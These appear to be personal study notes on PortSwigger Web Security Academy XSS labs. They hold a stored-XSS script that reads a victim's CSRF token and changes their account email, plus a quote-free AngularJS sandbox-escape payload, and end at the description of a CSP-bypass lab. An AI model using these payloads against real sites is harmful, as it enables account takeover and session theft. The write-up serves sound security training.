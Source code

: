```javascript
     req.open('get','/my-account',true); 
     req.send(); function handleResponse() { var token this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      
     var changeReq = new XMLHttpRequest(); 
     changeReq.open('post', '/my-account/change-email', true); 
     changeReq.send('csrf='+token+'&email=test@test.com') };
    
     </script>
```

This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`.
	![[Pasted image 20240915033546.png]]
		![[Pasted image 20240915033425.png]]

- payload to inject:
	![[Pasted image 20240915034247.png]]
		![[Pasted image 20240915034146.png]]


## 21. Reflected XSS with AngularJS sandbox escape without strings
This lab uses AngularJS in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.
To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the `alert` function without using the `$eval` function.

**Analysis**:
1. Visit the following URL, replacing `YOUR-LAB-ID` with your lab ID:
	`https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
2. The exploit uses `toString()` to create a string without using quotes. It then gets the `String` prototype and overwrites the `charAt` function for every string. This effectively breaks the AngularJS sandbox. 
3. Next, an array is passed to the `orderBy` filter. We then set the argument for the filter by again using `toString()` to create a string and the `String` constructor property. 
4. Finally, we use the `fromCharCode` method generate our payload by converting character codes into the string `x=alert(1)`. Because the `charAt` function has been overwritten, AngularJS will allow this code where normally it would not.
	![](Pasted%20image%2020250307180914.png)

Payload to be inserted as a search parameter:
```javascript
?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```


# 22. Reflected XSS with AngularJS sandbox escape and CSP
This lab uses CSP and AngularJS.
To solve the lab, perform a cross-site scripting attack that bypasses CSP, escapes the AngularJS sandbox, and alerts `document.cookie`.
